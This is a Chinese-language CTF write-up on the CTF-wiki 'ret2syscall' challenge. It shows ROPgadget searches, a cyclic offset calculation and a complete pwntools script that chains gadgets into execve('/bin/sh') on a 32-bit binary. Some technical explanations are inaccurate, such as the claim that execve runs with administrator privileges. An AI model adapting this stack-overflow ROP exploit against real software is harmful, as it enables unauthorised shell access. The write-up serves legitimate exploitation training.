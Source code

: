 # CTFWIKI-PWN-ret2syscall

该题目是在32位下

**目录**

[TOC]







## 先进行checksec

## 

## ida



<img src="https://i-blog.csdnimg.cn/blog_migrate/85fe65da1c42e0cebd7b0939f1dde32a.png" alt="" style="max-height:246px; box-sizing:content-box;" />


发现栈溢出函数这次我们学习的是系统调用 执行/bin/sh

这个是通过系统调用函数 就是存放在系统中的函数来执行shellcode

这种类型是没有存在shellcdoe的

我们这次要使用到的函数是

## 1.execve()



类似python中的os.system(cmd) 可以以管理员权限执行函数

这个函数和system()函数的差别就是 会不会返回

```scss
system() 会在执行完后进行返回 完成
```

```scss
execve()在语句执行完后不会返回
```

## 2.寄存器

eax通常使用与存放函数进行传递和进行系统调用



大多数都是运用eax进行系统调用

ebx ecx edx进行参数的传递

我们这个就是运用 这个概念

```undefined
通过eax进行调用系统函数
 
再通过ecx，ebx，edx进行函数的参数传递
 
ecx通常用于传递第一参数，edx用于传递第二参数，ebx用于传递第三参数
 
 
但是要凭借情况而定 这道题就是找到操作进行
```

## 3.我们需要先看看execve()函数的函数调用号

这个是查看所有的函数号



```cobol
cd /usr/include/asm
vim unistd_32.h 
```

这个是直接找execve()的函数号

```cobol
cat /usr/include/asm/unistd_32.h | grep execve 
```

grep是高级搜索 字符串

## 4.使用ROPgadget来查看

### 我们先进行查看eax|ret

来查看 pop eax ret指令

```php
ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c29779ff85e2d648423c637f7916fc97.png" alt="" style="max-height:194px; box-sizing:content-box;" />


能发现出现了 pop eax ;ret 这就是我们需要的操作 记下他的地址

```cobol
pop_eax_ret=p32(0x080bb196)
```

### 查看 pop ebx,ecx,edx,ret

通过高级搜索 看看 pop ebx,ret的操作

```php
ROPgadget --binary rop --only 'pop|ret' | grep 'ebx'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e553528b54edb2fd88254c8c95238261.png" alt="" style="max-height:728px; box-sizing:content-box;" />


返回来很多 有出现 pop ebx,ret

但是其中还有一个

```perl
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

出现了我们需要的全部 就是顺序不一样 所以这个变为

```undefined
ebx为第一参数 ecx为第二参数 edx 为第三参数
```

```cobol
pop_other_ret=p32(0x0806eb90)
```



这就解释为什么和上面我说一般来说参数的分配不一样 还有为什么流程图/bin/sh在ebx

### 查找 /bin/sh的地址

```php
ROPgadget --binary rop --string '/bin/sh'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c9ebdca94098cc804ebbd44e5a9ac2db.png" alt="" style="max-height:151px; box-sizing:content-box;" />


得到了地址

```cobol
bin_add=p32(0x080be408)
```

### 查找int 0x80

 `int 0x80` 是一种在Linux操作系统中使用的系统调用调用方式，它会触发中断信号并将控制权转移到内核态，在内核中执行相应的系统调用功能。该指令通常用于在用户空间中调用底层内核接口，例如文件操作、进程管理等。

但是现在 这个已经给其他调用方法替代了 存在历史性

```php
ROPgadget --binary rop --only 'int'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/abc5945699a3dada9ff2acd800e0970c.png" alt="" style="max-height:140px; box-sizing:content-box;" />


```cobol
int_add=p32(0x08049421)
```

这样我们就得到了所有的地址

## 5.查看字符偏移量

gdb打开

```cobol
cyclic 200
r
cyclic -l daab
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/d1ec111e651528eddbc112e9e1202a03.png" alt="" style="max-height:445px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/bb8a8b2e1f3727f46365119420fc19cf.png" alt="" style="max-height:130px; box-sizing:content-box;" />




我们开始编写exp

```cobol
from pwn import *
p=process('./rop')
pop_eax_ret=p32(0x080bb196)
pop_other_ret=p32(0x0806eb90)
bin_add=p32(0x080be408)
int_add=p32(0x08049421)
payload=b'A'*112+pop_eax_ret+p32(0xb)+pop_other_ret+p32(0)+p32(0)+bin_add+int_add
p.sendline(payload)
p.interactive()
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/6a45cb98f92e433222921f3b1056e49a.png" alt="" style="max-height:513px; box-sizing:content-box;" />


实现了控制器



## 附上流程图



<img src="https://i-blog.csdnimg.cn/blog_migrate/dcf18a0b81c773f0477580b99cc33888.png" alt="" style="max-height:748px; box-sizing:content-box;" />


```scss
execve('/bin/sh',0,0)
```